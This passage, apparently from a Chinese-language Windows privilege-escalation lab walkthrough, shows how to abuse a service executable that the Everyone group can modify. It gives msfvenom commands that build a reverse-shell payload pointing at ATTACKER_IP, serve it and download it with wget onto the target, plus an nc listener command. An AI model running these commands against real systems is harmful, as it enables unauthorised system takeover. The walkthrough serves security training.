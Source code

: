 由上述查询结果可知：漏洞软件所安装的服务以svcuser1账户运行，与该服务关联的可执行文件路径为<span style="color: #FBBFBC">`C:\Progra~2\System~1\WService.exe`</span>。 然后我们继续检查 服务关联的可执行文件的权限：

![](assets/DBlxbRUwXoCQ1dxNvZfc0hB1ngb.png)

由上述结果可知，Everyone组 对服务所关联的可执行文件具有修改权限 (M)，这意味着我们可以简单地用我们偏好的任何有效负载（payload）覆盖此文件，然后此服务将使用配置的用户帐户的权限执行payload。

我们可以在攻击机上使用 msfvenom 生成一个 exe-service 有效负载并通过 python 网络服务器传输该payload文件到目标机：


```Shell
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe
user@attackerpc$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

然后，我们可以使用以下命令从目标机的Powershell界面接收来自攻击机的payload文件：


```Shell
wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe
```

在 Windows 服务器中，我们将用payload文件替换掉服务所关联的可执行文件。 由于我们需要另一个用户来执行我们的payload文件，因此我们还要向Everyone组 授予完全权限：

![](assets/TETibFOYPovP7Nx9wBocNUQRnUb.png)

在攻击者机上启动一个反向shell监听器：`user@attackerpc$ nc -lvp 4445`

最后，重新启动服务。 虽然在正常情况下，你可能需要等待服务自行重启，但在此处你已被分配了手动重启服务的权限，以节省一些时间。
